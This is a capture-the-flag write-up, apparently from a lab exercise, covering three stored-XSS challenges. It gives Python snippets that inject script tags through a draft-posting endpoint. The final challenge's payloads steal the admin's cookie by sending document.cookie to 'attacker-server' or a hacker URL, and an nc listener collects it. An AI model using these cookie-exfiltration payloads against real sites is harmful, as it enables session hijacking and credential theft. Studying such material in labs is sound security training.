 ```python
    'content': f"<script>fetch(\'{url + '/publish'}\')</script>"
})

p = pwn.process('/challenge/victim')
p.wait()

print(s.get(url).text)
```

# XSS 6
The same as challenge 5 but with different parameter of fetch().
```python
# Only injection part of the codes.
h_inj = s.post(url + '/draft', data = {
    'publish': 1,
    'content': f"<script>fetch(\'{url + '/publish'}\'" + ', {method:"POST"})</script>'
})
```

# XSS 7
Only login admin's account can read the flag.
Since the cookie contains the password, use XSS to let the victim send the cookie(which contains password) to the hacker's device.

If it's really need to send a cross-site request for the developers, here's a solution by JavaSript:
```html
<script>
fetch('http://attacker-server:9999', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify({ cookie: document.cookie }), // Send the cookie in JSON format
    credentials: 'include' // Ensures cookies are included, even for cross-origin requests
});
</script>
```
But what we need is the `document.cookie`.
So it's respectful of the desciption for the challenge that
"and everything you need is available via JavaScript's fetch() and its ability to access (some) site cookies"
Since the `document.cookie` method is irrelavant with `fetch()` function.

## writeup
The injection part below.
```python
s.post(url + '/draft', data = {
    'publish': 1,
    'content': '<script>fetch("' + hacker_url + '", {method: "POST", credentials: "include", body: document.cookie})</script>'
})
```
Keep the `/challenge/server` on, do injection, using `nc -lv localhost 7777` to listen, then run `/challenge/victim`.
